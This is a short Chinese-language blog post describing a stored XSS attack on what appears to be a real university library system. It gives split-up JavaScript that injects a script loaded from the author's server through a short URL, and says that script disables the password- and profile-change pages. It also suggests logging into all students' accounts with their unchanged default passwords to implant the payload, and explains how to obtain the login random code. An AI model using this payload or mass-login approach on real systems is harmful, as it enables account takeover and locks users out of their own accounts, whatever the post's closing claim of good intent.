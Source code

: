 ```yaml
---
layout: post
title: 图书馆系统的XSS漏洞
categories: demos
tags: XSS
---
```



![攻击环境](/assets/dist/img/2016-11-06 14-33-51屏幕截图.png)  
本想在一个输入框内植入所有代码，然而后端限制输入长度，故只能将代码切割，然后依次植入。  
因为各个脚本均在同一上下文环境中执行，故可以切。  
另，这里攻击脚本的链接可以使用短地址。  
植入的脚本如下，唯一的功能是引入我[服务器上的脚本](//dwz.cn/2qFuMT)，要干的事都在上面写。
{% highlight javascript %}
p=$('body')
a=$('<script>')
b='//dwz.cn'
b+='/2qFuMT'
a[0].src=b
p.append(a)
{% endhighlight %}

服务器的那个脚本一看就懂没啥好说，主要是关掉修改资料和密码的入口。  
大多人没修改默认密码，随便找个后端语言（比如python）跑一遍，全校学生的帐号基本上都会被植入。   

登录图书馆系统除了提交帐号密码外还要一个随机码。  
打开[首页](///al.lib.xidian.edu.cn/)，"登录"这一链接上就藏有随机码。  
看下登录时的post请求就知道，会同时提交这个随机码。  

我没有恶意，纯粹是为了学习哈，没有在脚本里面乱搞。  
请不要插入广告，做些恶趣味的事。
